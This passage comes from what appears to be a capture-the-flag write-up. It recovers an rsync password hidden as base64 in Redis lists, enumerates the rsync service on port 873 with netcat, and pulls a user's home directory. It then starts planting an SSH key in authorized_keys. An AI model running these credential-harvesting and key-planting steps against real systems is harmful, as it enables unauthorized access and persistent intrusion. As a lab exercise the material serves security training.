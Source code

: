 - I managed to read them using `LRANGE authlist 0 -1` and `LRANGE marketlist 0 -1`.

- Authlist contained a base64 string four times, which, upon decoding, revealed the following info:

```
Authorization for rsync://rsync-connect@127.0.0.1 with password {REDACTED}v
```

#### PORT 873 - rsync

- I did some manual enumeration via netcat

```bash
nc -vn 10.10.169.137 873
Connection to 10.10.169.137 873 port [tcp/*] succeeded!
@RSYNCD: 31.0 # sent by server
@RSYNCD: 31.0 # sent by me
#list # send by me
files          	Necessary home interaction # sent by server
@RSYNCD: EXIT # sent by server ; connection terminated.
```

```bash
nc -vn 10.10.169.137 873
Connection to 10.10.169.137 873 port [tcp/*] succeeded!
@RSYNCD: 31.0
@RSYNCD: 31.0
files
@RSYNCD: AUTHREQD m6HAgJwMhK47KSKe+dqlDw
```

- Ok, so we need to authenticate to access the `files` share. I don't know how to do this via `nc`, so let's use the `rsync` command.

```bash
mkdir rsynced
rsync -av rsync://rsync-connect@10.10.169.137/files rsynced/
```

- This will sync the entire remote directory to in our directory called rsynced.

```bash
ls -ah
.              .config    .gnupg    Public                     user.txt
..             .dbus      .local    .rediscli_history          Videos
.bash_history  Desktop    .mozilla  .ssh                       .Xauthority
.bash_logout   .dmrc      Music     .sudo_as_admin_successful  .xscreensaver
.bashrc        Documents  Pictures  Templates                  .xsession-errors
.cache         Downloads  .profile  .thumbnails                .xsession-errors.old
```

- The user flag is in `user.txt`. 

- Anyway. The files above have the structure of an usual home directory, and they're in a directory called `sys-internal.` This might be a valid username.

- What I did was to generate a ssh private:public key pair and write the public key in a file called `authorized_keys`. 
